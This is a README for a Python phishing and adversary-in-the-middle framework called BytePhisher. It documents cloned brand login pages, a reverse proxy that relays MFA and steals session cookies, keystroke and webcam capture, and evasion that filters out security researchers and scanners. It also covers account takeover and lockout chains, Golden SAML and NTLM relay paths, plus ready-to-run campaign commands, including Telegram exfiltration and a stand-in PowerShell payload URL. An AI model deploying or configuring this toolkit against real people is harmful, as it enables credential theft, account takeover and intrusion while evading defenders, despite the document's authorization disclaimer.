


# BytePhisher 0.1.0

Phishing and adversary-in-the-middle framework for authorized red-team work. Pure
Python: no PHP, no web server, no external service. It ships a static template engine
and a reverse-proxy engine that serves a live site with a capture hook injected, so the
victim's session stays genuine while it is recorded.

```
808 brand templates  |  69 core modules  |  5 tunnel adapters  |  252 CLI flags
SQLite capture store |  live TUI + web dashboard  |  2FA/OTP relay  |  device dump
reverse-proxy (AiTM) engine  |  post-capture chains  |  click-to-access artifacts
self-contained site cloner (import any login page)  |  44 inline brand marks
```

Authorization must be in writing: client scope, CTF rules, or infrastructure you own.
The tool records real credentials, cookies and tokens, and several paths change state on
a live account. Everything below assumes that scope exists.

---

## Architecture



A visit flows: gate -> page and collector -> device dump and live keystrokes -> credential
and cookie capture -> optional OTP relay that completes the login upstream -> store ->
alerts and dashboard. A captured session then feeds the identity tier and the
click-to-access builders. The module map and both data flows are in
[docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## Install

```bash
# as a Python package (console script `bytephisher` on PATH)
pip install .            # or: pip install -e .  for a live checkout
bytephisher --version

# from a source checkout (what the tests use)
git clone <repo> bytephisher && cd bytephisher
python3 -m venv .venv && ./.venv/bin/pip install -r requirements.txt
./.venv/bin/python tools/gen_templates.py     # rebuild templates/ (808 sites, shipped)
```

Optional extras: `pip install ".[test]"` (pytest suite), `pip install ".[dev]"`
(tests + ruff).

`BYTEPHISHER_HOME` decides where `config/`, `templates/` and `data/` live (defaults to
the checkout; an installed copy falls back to the current directory). Requirements:
Python 3.10+ with `rich`, `jinja2`, `requests`, `pyyaml`, `flask`. No PHP, no web
server, no external binary except the tunnel client you pick (cloudflared is
downloaded into `bin/` when missing). Runs on Linux, macOS, Windows and Termux.

## Quick start

```bash
# list the templates
./.venv/bin/python bytephisher.py --list

# local-only dry run (no tunnel), Google template on :8080
./.venv/bin/python bytephisher.py -o google -m test

# full run: Instagram over cloudflared, geo lookup, 2FA page, then redirect
./.venv/bin/python bytephisher.py -o instagram -t cloudflared --otp \
    -u https://example.com/after --geo ipapi

# campaign with tagging, A/B rotation, Telegram alerts and the dashboard
./.venv/bin/python bytephisher.py -o google --rotate google,instagram \
    --telegram "123456:AA...:987654321" --web-dashboard

# every tunneler at once
./.venv/bin/python bytephisher.py -o netflix -t all

# reverse-proxy mode: mirror a real site and inject the capture hook
./.venv/bin/python bytephisher.py --proxy --upstream sso.example.com \
    --login-path /login -t cloudflared --campaign q3-sso
# or with a phishlet file
./.venv/bin/python bytephisher.py --proxy --phishlet config/phishlets/example.yaml

# rank the access paths a victim's own environment allows
./.venv/bin/python bytephisher.py --access-plan latest

# build every artifact that verdict calls for, with a manifest
./.venv/bin/python bytephisher.py --access-build out/q3 \
    --access-url https://campaign.example/trig --access-payload https://campaign.example/p.ps1

# pull the data out
./.venv/bin/python bytephisher.py --export data/captures.csv
./.venv/bin/python bytephisher.py --export data/captures.json --campaign q3-payroll
./.venv/bin/python bytephisher.py --reuse
```

## Two engines

| Mode | How it works | When to use it |
|---|---|---|
| **static** (`-o google`) | serves a generated brand page from `templates/` | quick lab work, anything where a copied page is enough |
| **reverse proxy** (`--proxy --upstream site.com`) | serves the real site through the link with a capture hook injected; the login completes upstream | engagements where a static copy is spotted instantly |

The proxy engine, the phishlet format, DNS rebinding and the local-service library are in
[docs/PROXY.md](docs/PROXY.md).

## Capabilities

### Templates and cloning

| Capability | Detail |
|---|---|
| 808 shipped templates | each brand's own mark, colours and copy, in the layout its real sign-in page uses: a bare centred page, a split hero, a blue header, a phone frame, a banking portal, a dark full-bleed |
| Self-contained cloner | `tools/import_site.py --url ...` mirrors the css, js, images and fonts beside the page, so the victim's browser never touches the real site's CDN |
| Deep asset capture | `srcset` and the lazy-load attributes, `url()` and `@import` inside stylesheets; SRI, CSP and `<base>` stripped; beacons removed and reported |
| Real field map | the page's own input names, types, placeholders and labels land in `fields.json`, and OTP-style fields are detected |
| Capture injection | the honeypot, the template id and the timing beacon are added to the login form the cloner found |
| Clone report | `clone_report.json` records what was mirrored, what was skipped and why, and whether the response was a bot wall instead of the page |

### Capture and harvest

| Capability | Detail |
|---|---|
| Deep device dump on page open | 46 modules: client hints, fonts, GPU, WebRTC, permissions, 150+ API checks, device token |
| Live keystroke/field stream | every value as typed, debounced, flushed on blur/submit |
| Server-side OTP completion | a streamed code finishes the login upstream in the same session |
| Browser autofill escalation | every field re-read on the first gesture |
| Ordered keystroke log | modifiers, per field, IME composition, `contenteditable` |
| Clipboard watch / media capture | read on gesture; webcam frame, mic clip, screen frame (permission-gated) |
| Reporting after the visit | service worker + IndexedDB queue, flushed by background sync |
| Reverse proxy (real site + hook) | per-victim cookie jar, HTML rewrite, MFA relay |
| No-fetch attack paths | form submissions into a hidden frame: not preflighted, not CORS-checked |

### Delivery and control

| Capability | Detail |
|---|---|
| Campaigns | tagging, per-campaign stats, A/B template rotation |
| Campaign gating | geo/ASN/hours/hit-cap, fail-closed allow-lists, logged refusals |
| Bot/scanner triage | 0-100 risk score with reasons, per-row risk in exports |
| Researcher filtering | vendor + datacenter + VPN orgs, scanner UAs, scanning ranges, your own file |
| Redirector chains / pool / cloaking | `--hop`, `--pool`, `--cloak` |
| Pre-serve human challenge | a signed token after interaction; a scanner gets the interstitial, not the clone |
| Telegram control channel | `/stats /sessions /session /live /otp /takeover /lures /block` + button taps |
| Alerts | Telegram + generic webhook, action buttons, on a daemon thread |
| Spear-phishing email module | SMTP + 4 templates + variable substitution + tracking pixel |
| Installable lure | PWA manifest + the collector's own worker (`--pwa`) |
| Panic from the console | `--panic` stops serving and keeps data; `--kill --yes` stops and wipes |
| Tunnels | 5 adapters brought up concurrently (cloudflared, localhost.run, bore, pinggy, ngrok) |

### Session and identity

| Capability | Detail |
|---|---|
| Session vault | cookies, credentials, tokens, JA3, geo, device token, timeline, state |
| Post-exploitation chains | `recon` / `inbox` / `takeover` / `lockout` / `full` / `own`, per-task results + keyword hunt |
| Browser takeover | a real Chrome drives the captured session; replay mode for offline work |
| Token tier | replayability, scopes, and the root-of-trust path, computed where the token lands |
| Device-code relay | RFC 8628; the victim approves on the provider's real page |
| App-only persistence | register app -> permissions -> consent -> client-credentials token |
| Golden SAML / federation / AD CS | assertion forge, the three federation calls, the ESC8 relay |
| Soft-2FA capture | `otpauth://` parsing, code generation, and a bounded low-entropy secret scan |

### Click-to-access

One click is worth what the victim's own environment allows. `core/decision.py` ranks the
paths from the facts a campaign already collects, and `core/ctso.py` writes the artifacts
for the verdict into one directory with a manifest.



| Path | Payoff | What it needs |
|---|---|---|
| T2 NTLM relay | domain access | a Windows host, a listener that answers 401 NTLM, a relay target that accepts it |
| T1 intranet | host access | a reachable local service and the rebinding responder |
| T3 exploit pack | host access | a fingerprint match in the operator's pack and the payload on disk |
| T4 macro document | host access | Windows, macros enabled, the victim opening the file |
| T5 shortcut / scriptlet | host access | Windows, the victim opening the artifact, script-host policy |
| C1 DNS | channel only | filtered egress and the authoritative responder |

Every path carries a confidence label (`CONFIRMED` / `SUSPECTED` / `FAILED`) and the
precondition it is waiting on. The builders ship no weaponized payload: the pack is a
matcher for operator-supplied proof-of-concept files, and the macro document can be built
inside your own working template (`--artifact-template`). See
[docs/ACCESS.md](docs/ACCESS.md).

### Limits

| Limit | Cause |
|---|---|
| MFA is relayed, not bypassed | the victim's real second factor goes to the real site through the proxy |
| No HTTP/2 on the victim leg | the standard library has no HTTP/2 server; a fronting proxy (Cloudflare, nginx) provides it |
| WebSockets break on some sites | the proxy is HTTP/1.1 request/response; an upgrade is not tunnelled unless the site allows the relay |
| Session replay can trip provider risk engines | reusing a harvested cookie from a different IP/UA/geo may step up to MFA or block |
| Device-code / consent blocked by conditional access | a tenant demanding a compliant device, or an admin restricting user consent, stops the grant |
| Passkey hybrid relay | needs a CTAP2 relay and a phone-side authenticator; not shipped |
| Click-time sandbox detonation | a sandbox always fetches; cloaking wastes the fetch, it does not stop the scan |
| Browser exploit delivery | the pack matches and serves; whether a given build is vulnerable is the entry's own claim to verify |

## Flags

The complete reference is [docs/CLI.md](docs/CLI.md). The surface an operator uses most:

| Flag | Meaning |
|---|---|
| `-o, --option` | template index `1..808` or slug (`google`, `instagram`, ...) |
| `-t, --tunneler` | `cloudflared` \| `localhost_run` \| `bore` \| `pinggy` \| `ngrok` \| `all` \| `none` |
| `-m, --mode` | `normal` (tunnels) or `test` (local only) |
| `--proxy` / `--phishlet` / `--upstream` | reverse-proxy mode and its target |
| `--otp` / `--capture-cookies` / `--intel-dump` | capture surface |
| `--allow-country` / `--block-datacenter` / `--decoy` / `--block-researchers` | gating |
| `--telegram-c2` / `--web-dashboard` / `--webhook` | operator surface |
| `--run-chain` / `--chains` / `--auto-chain` | post-capture action |
| `--access-plan` / `--access-build` / `--artifact` | click-to-access |
| `--pack-list` / `--pack-match` / `--pack-verify` | exploit pack |
| `--totp-uri` / `--totp-code` / `--totp-scan` | soft-2FA |
| `--doctor` / `--capabilities` / `--list` / `--version` | self-check |

## Documentation

| Document | Contents |
|---|---|
| [ARCHITECTURE.md](docs/ARCHITECTURE.md) | module map, both data flows, storage, design rules |
| [PROXY.md](docs/PROXY.md) | reverse-proxy engine, phishlet format, DNS rebinding, local-service library |
| [HARVEST.md](docs/HARVEST.md) | collector, 48-module device dump, live stream, server-side OTP |
| [IDENTITY.md](docs/IDENTITY.md) | the tier ladder, device-code grant, consent and token work, Golden SAML, the AD chain |
| [ACCESS.md](docs/ACCESS.md) | the decision matrix, the artifact builders, the exploit pack, soft-2FA, DNS channel |
| [OPERATIONS.md](docs/OPERATIONS.md) | campaign lifecycle, gating, control channel, chains, pressure operations, field checklist |
| [EVASION.md](docs/EVASION.md) | anti-detection posture: what the tool leaks and the countermeasures |
| [TESTING.md](docs/TESTING.md) | test tiers, how to verify, the adversarial regressions |
| [CLI.md](docs/CLI.md) | every flag, grouped, with examples |
| [COVERAGE.md](docs/COVERAGE.md) | every capability with its module and its test |

## Tests

```bash
./.venv/bin/python tests/run_all.py          # full suite, one summary
./.venv/bin/python tests/run_all.py --fast   # skip the live/internet suite
```

The tiers select real tests: `-m unit` (pure logic, no sockets), `-m integration` (local
sockets and subprocesses), `-m live` (a real browser or the real internet). Live tests
skip with a reason when a service is unavailable. Published formats are cross-checked
against independent implementations - QR against `qrcode`, Kerberos and the RBCD
descriptor against `impacket`, the macro container against `oletools` - behind
`pytest.importorskip`, so the product stays standard library only. See
[docs/TESTING.md](docs/TESTING.md).

## Deployment

| Target | How |
|---|---|
| Docker | `docker compose up -d` (see `docker-compose.yml`, dashboard on :8090) |
| systemd | `cp deploy/bytephisher.service /etc/systemd/system/ && systemctl enable --now bytephisher` - the unit hard-codes `/opt/bytephisher`; edit `WorkingDirectory`/`ExecStart` if your checkout lives elsewhere |
| Android/Termux | `bash deploy/install-termux.sh` (set `BYTEPHISHER_REPO=<your repo url>` if you forked it) |
| Anywhere | `make install && make run` |

Before a campaign:

```bash
./.venv/bin/python bytephisher.py --doctor      # deps, templates, DB, tunnelers
./.venv/bin/python tools/probe_tunnels.py       # which tunnelers work right now
```

Four `--doctor` warnings are expected on a fresh host and are not failures: ngrok needs an
authtoken, localhost.run and pinggy depend on ssh and an external service, and a host with no
IPv6 route reports it (outbound calls prefer IPv4, so AAAA-only names still resolve).
